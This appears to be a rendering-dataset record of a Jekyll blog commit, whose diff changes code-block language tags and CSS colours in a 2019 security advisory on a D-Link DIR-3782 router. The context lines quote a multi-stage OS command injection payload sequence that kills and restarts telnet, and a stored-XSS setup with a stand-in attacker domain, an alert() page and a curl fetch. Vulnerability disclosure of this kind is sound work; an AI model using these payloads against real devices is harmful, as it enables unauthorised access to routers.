

Before and after one commit to c0mix/c0mix.github.io, a Jekyll site: the page built from _posts/2019-01-24-D-Link-DIR-3782-SecAdvisory:-OS-Command-Injection-and-Stored-XSS.markdown, in a window 1280 px wide and 1400 px high, scrolled down 4676 px. Shown: the top 486 px of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/_posts/2019-01-24-D-Link-DIR-3782-SecAdvisory:-OS-Command-Injection-and-Stored-XSS.markdown
+++ b/_posts/2019-01-24-D-Link-DIR-3782-SecAdvisory:-OS-Command-Injection-and-Stored-XSS.markdown
@@ -49,7 +49,7 @@
 
  After many failed attempts, I came out with the solution to my problem that could be defined a multi-stage exploit. In particular I've noticed that it was possible to inject commands multiple times inside the acl.sh script and all of them were executed, so the problem was to find a correct 13-chars-length command sequence that would have allowed to stop and then restart telnet service. I think there are different ways to do this, mine is the following:
 
-```python
+```
 Payload 1: 'ps|grep tel>a'     # identify telnet pid grepping ps output and store it in file a
 Payload 2: 'grep -v gr a>b'    # remove unwanted line
 Payload 3: 'kill $(cat b)'     # kill utelnetd
@@ -106,13 +106,13 @@
 As example, I used the domain `a-tt.com` as the attacker's domain and I managed to simulate its existence adding a line to my `hosts` configuration file.
 The command showed below will force your pc to resolve the attacker's domain `a-tt.com` with the 127.0.0.1 IP address.
 
-```bash
+```
 127.0.0.1	a-tt.com
 ```
 
 The second step needed is to create an `asp` file called `header.asp` with the real exploit payload, this code will be executed by the victim's browser so you can add whatever you want. Reading the following steps the reason why the file needs to have this particular name and extension is clear. Since this is just a test, I created the following simple alert script that will prove the presence of the vulnerability by prompting a JavaScript popup.
 
-```html
+```Javascript
 <html>
     <h1>Attacker's Site</h1>
     <script>alert('XSS in domain: '+document.domain)</script>
@@ -126,7 +126,7 @@
 ```
 
 Now it is possible to test our configuration:
-```
+```Javascript
 $ curl http://a-tt.com/header.asp
 <html>
 <h1>Attacker's Site</h1>
--- a/_sass/monokai.scss
+++ b/_sass/monokai.scss
@@ -1,5 +1,5 @@
 pre.highlight,
-.highlight pre { background-color: #272822; }
+.highlight pre { background-color: #f0f0f0; }
 .highlight .hll { background-color: #272822; }
 .highlight .c { color: #75715e } /* Comment */
 .highlight .err { color: #960050; background-color: #1e0010 } /* Error */
--- a/_sass/uno.scss
+++ b/_sass/uno.scss
@@ -1019,7 +1019,7 @@
 
 code {
 	padding: .1em .4em;
-	background: #e8f2fb;
+	background: #f0f1f2;
 	border: 1px solid #c9e1f6;
 	border-radius: 3px;
 	font-family: Consolas, Menlo, Monaco, Lucida Console, Liberation Mono, DejaVu Sans Mono, Bitstream Vera Sans Mono, Courier New, monospace, serif;
````
